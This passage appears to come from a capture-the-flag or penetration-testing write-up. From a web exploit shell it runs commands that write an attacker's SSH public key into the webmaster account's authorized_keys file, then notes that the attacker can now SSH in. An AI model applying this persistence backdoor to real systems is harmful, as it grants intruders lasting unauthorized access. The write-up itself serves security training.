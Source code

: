 On our SiXeS Exploit Shell: 
~~~
$ id
uid=1000(webmaster) gid=1000(webmaster) groups=1000(webmaster),33(www-data)
$ pwd
/home/webmaster
$ mkdir .ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCwGcCiKP5UpvzU0B21kcOHUC2N3qVPToO5oupLvPj6lHNhbI/8ew/YJZc9ngx69gf9EWS1MKReJaOGMviSwemnItXrzS8eetqv9HnP6UCeJ8S8tWSAtrZiaqL+cfAogQ0PW8DEFHPUc16NmLKP8IocDsRNnRmaS9VSjGGRH5+RMQ== root@kali-VM" > .ssh/authorized_keys
$ chmod -R 700 .ssh
~~~

Now we can easily ssh into the webmaster account:

![](attachments/Clipboard_26.png)
